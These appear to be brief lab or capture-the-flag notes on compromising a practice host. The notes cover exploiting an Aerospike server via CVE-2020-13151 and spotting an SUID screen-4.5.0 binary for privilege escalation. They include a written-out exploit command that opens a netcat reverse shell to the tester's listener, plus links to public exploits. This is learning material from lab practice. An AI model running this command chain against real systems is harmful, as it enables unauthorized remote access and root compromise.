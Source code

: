 http://192.168.217.143:81/

![[Pasted image 20250209215030.png]]

https://github.com/b4ny4n/CVE-2020-13151
https://b4ny4n.github.io/network-pentest/2020/08/01/cve-2020-13151-poc-aerospike.html

used this script from searchsploit (but the above should also work)
- had to patch it:
	- increase timeout time (SERVER SO SLOW BAD OFFSEC)
	- disable version checking
`python3 49067.py --ahost 192.168.195.143 --netcatshell --lhost 192.168.45.201 --lport 80`

got reverse shell

from linpeas scan:
```
-rwsr-xr-x 1 root root 1.8M May 10  2021 /usr/bin/screen-4.5.0 (Unknown SUID binary!)
```

https://www.exploit-db.com/exploits/41154


